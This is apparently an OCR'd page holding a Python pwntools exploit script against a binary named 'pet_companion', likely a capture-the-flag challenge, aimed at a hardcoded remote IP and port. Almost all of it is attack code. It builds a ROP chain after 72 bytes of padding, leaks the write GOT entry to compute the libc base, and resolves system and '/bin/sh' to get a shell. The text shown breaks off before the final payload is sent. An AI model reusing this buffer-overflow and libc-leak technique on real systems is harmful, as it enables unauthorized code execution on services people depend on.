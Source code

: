 ```python
from pwn import *

LOCAL_FILE_PATH: str = "./pet_companion"
REMOTE_SERVER = "94.237.62.240"
REMOTE_PORT = 43944
libc=ELF("./glibc/libc.so.6", checksec=False)
vuln_elf = ELF(LOCAL_FILE_PATH)
rop=ROP(vuln_elf)

def pwn_pet_compagnion(proc):
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]

    # Find gadgets
    pop_rsi_r15_ret = rop.find_gadget(['pop rsi', 'pop r15','ret'])[0]

    # Find addresses
    write_plt = vuln_elf.plt['write']
    write_got = vuln_elf.got['write']
    main_plt = vuln_elf.symbols['main']

    # Build the ROP chain to leak libc address
    rop_chain = b""
    rop_chain += b"A" * 72   # Padding to reach RIP overwrite
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(1)  # File descriptor (stdout)
    rop_chain += p64(pop_rsi_r15_ret)  # Pop rsi; pop r15; ret
    rop_chain += p64(write_got)  # Address of write in GOT
    rop_chain += p64(0)  # Dummy value for r15
    rop_chain += p64(write_plt)  # Call to write function to leak address of write function
    rop_chain += p64(main_plt)   # Return to main

    # Send payload
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    proc.sendline(rop_chain)


    with open ('input.txt', 'wb') as out:
        out.write(rop_chain)
        print(rop_chain)


    # Receive leaked address
    print(proc.recvuntil(b"[*] Configuring...\n\n"))
    leaked_write = proc.recv(8)
    print("leaked:", leaked_write)
    write_address = u64(leaked_write.strip().ljust(8, b"\x00"))
    print(hex(write_address))

    # Calculate libc base address
    libc.address = write_address - libc.symbols['write']

    print("Glibc_base:", hex(libc.address))
    proc.clean()
    system_address = libc.symbols['system']
    print(hex(system_address))


    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    # bin_sh = 0x7ffff79b3d88
    bin_sh = next(libc.search(b"/bin/sh"))
    print('/bin/sh address:', hex(bin_sh))

```